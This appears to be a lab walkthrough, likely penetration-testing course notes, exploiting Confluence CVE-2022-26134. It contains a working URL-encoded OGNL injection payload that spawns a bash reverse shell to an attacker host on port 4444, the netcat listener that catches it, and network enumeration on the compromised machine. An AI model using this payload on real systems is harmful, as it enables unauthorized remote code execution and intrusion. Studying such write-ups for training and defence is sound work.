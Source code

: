After exploiting a vulnerable Confluence instance (`CVE-2022-26134`) we gain a reverse shell on `CONFLUENCE01`. and enumerate its position on the network.

{% tabs %}
{% tab title="1. Payload" %}
{% code overflow="wrap" %}
```bash
# payload from Kali exploiting CONFLUENCE01
$ curl http://192.168.185.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.236/4444%200%3E%261%27%29.start%28%29%22%29%7D/
```
{% endcode %}
{% endtab %}

{% tab title="2. RevShell" %}
{% code overflow="wrap" %}
```bash
# reverse shell on Kali
$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.118.4] from (UNKNOWN) [192.168.50.63] 55876
...
confluence@confluence01:/opt/atlassian/confluence/bin$ id
id
uid=1001(confluence) gid=1001(confluence) groups=1001(confluence)
```
{% endcode %}
{% endtab %}

{% tab title="3. Positional Awareness" %}
{% code overflow="wrap" %}
```bash
# network interfaces
confluence@confluence01:/opt/atlassian/confluence/bin$ ip addr
ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:50:56:8a:54:46 brd ff:ff:ff:ff:ff:ff
    inet 192.168.50.63/24 brd 192.168.50.255 scope global ens192
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:fe8a:5446/64 scope link 
       valid_lft forever preferred_lft forever
3: ens224: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:50:56:8a:c2:c9 brd ff:ff:ff:ff:ff:ff
    inet 10.4.50.63/24 brd 10.4.50.255 scope global ens224
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:fe8a:c2c9/64 scope link 
       valid_lft forever preferred_lft forever

# routing information
confluence@confluence01:/opt/atlassian/confluence/bin$ ip route
ip route
default via 192.168.50.254 dev ens192 proto static 
10.4.50.0/24 dev ens224 proto kernel scope link src 10.4.50.63 
10.4.50.0/24 via 10.4.50.254 dev ens224 proto static
192.168.50.0/24 dev ens192 proto kernel scope link src 192.168.50.63
```
{% endcode %}